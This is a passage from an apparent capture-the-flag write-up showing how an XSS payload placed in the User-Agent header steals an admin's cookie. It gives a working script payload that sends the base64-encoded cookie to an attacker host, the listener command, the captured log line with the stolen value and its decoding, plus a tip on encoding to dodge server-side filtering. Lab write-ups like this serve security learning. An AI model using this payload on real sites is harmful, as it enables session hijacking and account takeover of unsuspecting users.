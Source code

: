 ![xss_attempt](./img/xss_attempt.png)

However when we intercept this request in our Burp Suite and place the payload in the `User-Agent` headers, we get the script reflected to us, indicating that this site is vulnerable to XSS attack.

The response shows that the admin will be reviewing our XSS attempt request, and one of the headers that is present is `is_admin`, indicating that there may be a cookie for the admin that we can steal especially the `http-only` flag for the cookie is set to false.

## Exploit

Before sending the request, we need to set up a simple Python server so that we can get the request.

```
> python3 -m http.server 8000
```

We then can try to steal the admin cookie with the following payload:

```html
<script>var img = new Image();img.src="http://<IP_ADDR>:8000/cookie?="+btoa(document.cookie)</script>
```
We would get the following on our python server once the request are sent. Since the cookie is base64 encoded, we can decode it in Bash. 

> Note: We can try to send the raw cookie, but for best practice so it makes the exploit less obvious and potentially prevent server-side filtering.

```shell
...
10.10.14.3 - - [06/Sep/2024 10:50:39] "GET /cookie?=SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDAK HTTP/1.1" 404 -
> echo 'SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDAK' | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
